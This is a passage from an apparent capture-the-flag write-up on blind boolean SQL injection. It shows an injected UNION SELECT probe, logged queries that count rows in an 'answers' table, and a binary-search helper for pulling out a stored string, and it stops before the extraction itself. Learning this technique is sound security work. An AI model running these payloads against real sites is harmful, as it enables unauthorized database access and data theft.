 while

`print(submit_query("42' OR '1'='1' UNION SELECT NULL'"))`

resulted in `True`. So there is just one column in the `answers` table.

Next I got the number of rows in the `answers` table:
```
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 0,1 --'
</pre><h1>You are so close.</h1>
True
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 5,1 --'
</pre><h1>Wrong.</h1>
False
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 3,1 --'
</pre><h1>Wrong.</h1>
False
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 2,1 --'
</pre><h1>Wrong.</h1>
False
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 1,1 --'
</pre><h1>Wrong.</h1>
False
<pre>SQL query: SELECT * FROM answers WHERE answer='42' OR '1'='1' LIMIT 0,1 --'
</pre><h1>You are so close.</h1>
True
```

So there is just one record in the `answers` table. (This approach is sort of redundant since I already knew that from `SQLMap`, but I am pretending I did not know for learning purposes.)

Next, I wanted to extract the contents of the result. To do that, I needed to know the length of the string held in the `answers` table, and then determine the value of each ASCII character in the table. To do so, I wrote a function to do a binary search, which is designed to take the name of some arbitrary function that returns a boolean value, and then repeatedly call that function with different input values until the search is complete. Here's my function:

```
# The binary search function. Optionally takes an argument to pass to the function it's calling.
def binary_search(lower, upper, f, arg1=None):
	guess = floor((lower+upper)/2)
	if not f(guess, arg1):
		if lower == upper:
			return lower
		else:
			return binary_search((guess+1), upper, f, arg1)
	else:
		if lower == upper:
			return lower
		else:
			return binary_search(lower, guess, f, arg1)
```

With this function, I could determine the length of the string in the `answers` table:
